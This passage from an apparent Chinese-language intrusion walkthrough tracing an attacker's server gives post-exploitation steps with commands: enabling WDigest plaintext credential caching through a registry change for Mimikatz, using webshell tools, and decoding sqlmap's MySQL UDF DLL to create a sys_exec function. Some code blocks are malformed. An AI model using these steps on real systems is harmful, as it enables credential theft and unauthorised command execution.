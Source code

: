 直接访问该文件进行下载。

![图片](./追踪攻击源头 从IP地址到攻击者身份的溯源之旅.assets/640-1714154951178-370.webp)

使用 Mimikatz 进行解析，结果没有找到明文密码，果然失败了。

![图片](./追踪攻击源头 从IP地址到攻击者身份的溯源之旅.assets/640-1714154951178-371.webp)

在 Windows Server 2012 R2 Datacenter 上使用 Mimikatz 获取明文密码似乎不太容易，即使是通过 procdump64 导出内存再解析也无法成功。但可以尝试修改注册表来实现。你可以使用以下命令在注册表中新建一个名为 UseLogonCredential 的 DWORD 项，并将其值设置为 1。

```bash
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /d 1 /t REG_DWORD /f
看来修改注册表确实有效呢，不错不错！
```

![图片](./追踪攻击源头 从IP地址到攻击者身份的溯源之旅.assets/640-1714154951178-372.webp)

![图片](./追踪攻击源头 从IP地址到攻击者身份的溯源之旅.assets/640-1714154951178-373.webp)尝试重载 explorer.exe 进程似乎不太理想，它可能会关闭已经打开的窗口，并且并不能保证注册表的更新成功。

```bash
taskkill /f /im explorer.exeexplorer.exe
```

更新注册表最可靠的方式可能是重启系统。

## 尝试添加新用户

新建用户时没有回显可能让你不确定是否成功。尝试先输入命令，然后检查是否成功。但在尝试远程登录时失败了。起初以为是工具的问题，尝试了另一个工具“哥斯拉”，但结果依然不行。看来问题不在于工具，而是在于我自己。

![图片](./追踪攻击源头 从IP地址到攻击者身份的溯源之旅.assets/640-1714154951178-374.webp)

既然尝试了其他方法不行，不妨试试使用 udf 提权的方式。虽然你已经有了 system 权限（捂脸哭），可以尝试使用 MySQL 的 sys_exec() 或者 sys_eval() 来执行命令。确保 MySQL 版本大于 5.1，将 udf.dll 文件放置在 MySQL 安装目录的 lib\plugin 文件夹下。如果目录不存在，可以新建一个。你可以在 sqlmap 中找到 udf.dll，但需要先解码。解码工具在 sqlmap/extra/cloak/cloak.py，使用以下命令解码： 

```bash
python .\cloak.py -d -i D:\tool\sqlmap\data\udf\mysql\windows\64\lib_mysqludf_sys.dll_
解码完成后会在 32 或 64 位的目录下生成 dll 文件。
```

在尝试之前，先查看 MySQL 的版本信息，确定需要使用哪个位数的 dll 文件。这个位数不是操作系统的位数，而是 MySQL 软件的位数。还要查看 MySQL 的安装目录位置（phpinfo 中也有）。

![图片](./追踪攻击源头 从IP地址到攻击者身份的溯源之旅.assets/640-1714154951178-375.webp)

![图片](./追踪攻击源头 从IP地址到攻击者身份的溯源之旅.assets/640-1714154951178-376.webp)

尝试上传 udf.dll 文件到 MySQL 的插件目录。

![图片](./追踪攻击源头 从IP地址到攻击者身份的溯源之旅.assets/640-1714154951178-377.webp)上传成功后，尝试创建函数。关于为什么不直接使用蚁剑的数据库功能执行语句，可能是因为无法连接上数据库吧！

```bash
create function sys_exec returns string soname "lib_mysqludf_sys.dll";
```
